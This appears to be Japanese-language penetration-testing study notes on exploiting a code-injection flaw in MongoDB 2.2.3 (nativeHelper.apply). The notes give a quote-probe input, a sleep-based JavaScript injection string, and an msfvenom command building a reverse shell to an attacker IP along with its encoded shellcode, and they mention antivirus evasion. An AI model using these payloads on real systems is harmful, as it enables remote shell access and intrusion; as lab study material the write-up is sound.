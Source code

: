# mongodb

### 2.2.3 nativeHelper.apply

* gobusterで以下ディレクトリにたどり着く. 27017でmongodbが起動している

![image-20230212163413100](img/mongodb/image-20230212163413100.png)

* 文字列を入れるとエクセプション画面に遷移し脆弱性を確認可能

  ```
  '
  ```

  ![image-20230212163519395](img/mongodb/image-20230212163519395.png)

  

* 2.2.3でsearchsploitするとnativeHelper.applyの脆弱性にたどり着く

  ![image-20230212163606825](img/mongodb/image-20230212163606825.png)

  ![image-20230212163634030](img/mongodb/image-20230212163634030.png)

* 以下入力を行うと、javascriptでsleep処理が動いた後にエラー画面に遷移する

  ```
  ';sleep(5000); '
  ```

  ![image-20230212164350755](img/mongodb/image-20230212164350755.png)

  入力内容は囲った枠のようになる。きちんとシングルクウォートとダブルクオートが一致していないとそれぞれエスケープされる処理が入っているため、整合性を合わせて入力を作る必要がある

* msfvenomでpayloadを作成する

  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.168 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
  
  [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
  [-] No arch selected, selecting arch: x86 from the payload
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of generic/none
  generic/none succeeded with size 73 (iteration=0)
  generic/none chosen with final size 73
  Payload size: 74 bytes
  Final size of js_le file: 222 bytes
  %udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u68a8%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6268%u7361%u6868%u6962%u2f6e%u2f68%u2f2f%u892f%u52e3%u8953%ub0e1%ucd0b%u4180
  ```

* exploitコードは最終的に以下となる（AV回避）

  ![image-20230212164636885](img/mongodb/image-20230212164636885.png)

* 参考にしたサイト

  https://www.objectrocket.com/blog/mongodb/code-injection-in-mongodb/